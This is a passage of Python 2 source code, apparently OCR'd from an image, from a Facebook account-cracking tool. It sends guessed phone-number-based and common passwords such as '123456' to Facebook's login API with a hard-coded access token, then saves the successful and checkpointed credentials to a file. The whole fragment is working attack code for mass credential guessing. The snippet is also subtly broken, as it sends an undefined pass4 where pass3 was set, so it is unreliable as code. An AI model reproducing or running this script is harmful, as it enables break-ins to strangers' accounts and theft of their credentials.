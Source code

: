                 oks.append(c+user+pass1)

            else:

                if 'www.facebook.com' in q['error_msg']:

                    print '\033[1;97m[Checkpoint] ' + k + c + user + '  |  ' + pass1

                    cps = open('save/Checkpoint.txt', 'a')

                    cps.write(k+c+user+pass1+'\n')

                    cps.close()

                    cpb.append(c+user+pass1)

                else:

                    pass2 = k + c + user

                    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')

                    q = json.load(data)

                    if 'access_token' in q:

                        print '\x1b[1;92m[Successfull] ' + k + c + user +  '  |  ' + pass2

                        okb = open('save/Checkpoint.txt', 'a')

                        okb.write(k+c+user+pass2+'\n')

                        okb.close()

                        oks.append(c+user+pass2)

                    else:

                        if 'www.facebook.com' in q['error_msg']:

                            print '\033[1;97m[Checkpoint] ' + k + c + user + '  |  ' + pass2

                            cps = open('save/Checkpoint.txt', 'a')

                            cps.write(k+c+user+pass2+'\n')

                            cps.close()

                            cpb.append(c+user+pass2)

                        else:

                            pass3="123456"

                            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')

                            q = json.load(data)

                            if 'access_token' in q:

                                print '\x1b[1;92m[Successfull] ' + k + c + user + '  |  ' + pass3
